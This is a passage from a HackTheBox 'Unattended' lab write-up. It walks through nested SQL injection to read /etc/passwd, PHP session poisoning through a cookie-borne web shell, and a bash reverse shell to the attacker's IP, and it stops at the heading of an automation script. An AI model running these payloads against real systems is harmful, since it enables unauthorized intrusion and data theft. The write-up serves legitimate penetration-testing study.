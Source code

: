 We can use the following query on the database

`SELECT name FROM idname where id = $_GET['id']`

So, I'll submit on the page `25' and 1=2 UNION select 'about'-- -`

It worked because showed me the about page

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2009:37:08.png)

Now that I can put whatever I want into tpl, I’ll inject again to control what is included in the page. From the source, I see the SQL query will be:

`SELECT path from filepath where name = $tpl`

So fully control tpl value, I want the query to look like:

`SELECT path from filepath where name = 0x4rt3mis UNION select /etc/passwd`

Once I know that the table 0x4rt3mis does not exist on the server, it will process only the /etc/passwd

`25' and 1=2 UNION select '0x4rt3mis\' union select \'/etc/passwd\'-- -'-- -`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2009:50:14.png)

# www-data Shell

Now that we know that we can read files on the server, let's start getting a reverse shell in it

We can do some log poisoning in php apache logs.

We will write a php shell into a cookie so that it poisons the php session data, and read that out of /var/lib/php/sessions/, the session will be my cookie

`/var/lib/php/sessions/sess_8ubjns4fqnj0c1oioc5121vo90`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2009:57:05.png)

If I can control the cookie, what would if I add a new cookie in it?

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2009:58:10.png)

Yes we can, what if we add a php code in the cookie?

`<?php system($_GET['cmd']); ?>`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2010:00:54.png)

And here we have RCE on the box... now let's get a reverse shell

`bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2010:04:51.png)

Now, let's automate it to better get shell on the box

auto_wwwdata.py
